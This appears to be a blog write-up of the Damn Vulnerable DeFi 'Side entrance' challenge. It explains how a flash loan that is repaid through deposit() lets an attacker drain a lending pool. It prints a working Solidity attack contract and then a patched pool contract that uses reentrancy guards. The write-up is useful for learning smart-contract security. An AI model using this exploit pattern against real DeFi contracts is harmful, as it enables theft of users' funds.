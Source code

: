 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Side entrance
---
```


## Description
A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## Solution
Ah nice, another flash loan contract! If the name is any indication, we'll have to enter the
contract is an unexpected way. The first thing to catch your eye should be the `deposit()`
function. Can we take out a flash loan and then use those funds to perform a deposit?

If we flash loan `X` amount and then deposit `X`, as far as the flash loan contract is
concerned, we've returned the loan (i.e. `address(this).balance >= balanceBefore`). But
we've also incremented the attacker's balance. Then we can call `withdraw` for free monies!!!

```
contract SideEntranceAttack is IFlashLoanEtherReceiver {
    SideEntranceLenderPool private pool;

    function attack(SideEntranceLenderPool _pool) external {
        pool = _pool;
        // execute() will be called by the loaner between
        // _pool.flashLoan and _pool.withdraw()
        _pool.flashLoan(address(pool).balance);
        _pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    // Called by the flash loaner
    function execute() override external payable {
        pool.deposit{value: msg.value}();
    }

    // Need this so the flash loaner doesn't revert when it tries
    // to send us ether
    receive() external payable {}
}
```

## Patched Contract
This is a classic reentrancy attack, and we can fix it by making `deposit` and `flashLoan`
non-reentrant. Heck, we'll throw the modifier on `withdraw` too just for safe measure!

```
contract SideEntranceLenderPoolV2 is ReentrancyGuard {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable nonReentrant {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external nonReentrant {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external nonReentrant {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
```

You can verify yourself that the exploit no longer works with `SideEntranceLenderPoolV2`!